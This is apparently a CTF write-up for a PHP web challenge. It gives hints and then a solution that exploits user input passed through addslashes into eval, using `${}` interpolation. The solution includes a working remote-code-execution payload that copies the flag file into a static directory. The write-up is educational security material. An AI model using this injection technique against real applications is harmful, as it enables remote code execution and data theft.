 This is supposed to be simple but I was distracted by red herrings and it took some time.

<details>
  <summary> Hint 1: </summary>
  
  What are the possible vectors? (If you haven't downloaded the source code, download it)
</details>
<details>
  <summary> Hint 2: </summary>
  
  There are at least 2 ways you can leak the flag if you have RCE, which one is easier? What stops you from achieving what you want? How would you *bypass* it?
</details>

<details>
  <summary> <b>Solution:</b> </summary>
  <br/>
  
  There is only 1 page with 1 vector: the `format` query parameter. It is passed through `addslashes` and then supplied to this statement:
```php
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
```

`addslashes` will add slashes to `'`, `"`, `\` and `NULL`. On the surface it may seem we cannot escape the double quote context, however we have a very good resource [here](https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php).

The caveat is that functions within `${}` are executed by php to get a variable name, **including all global variables like `$_GET`**.

I simplified a bit to get `?format=${eval($_GET[1])}&1=system('cp /flag* /www/static/flag.txt')`.
</details>

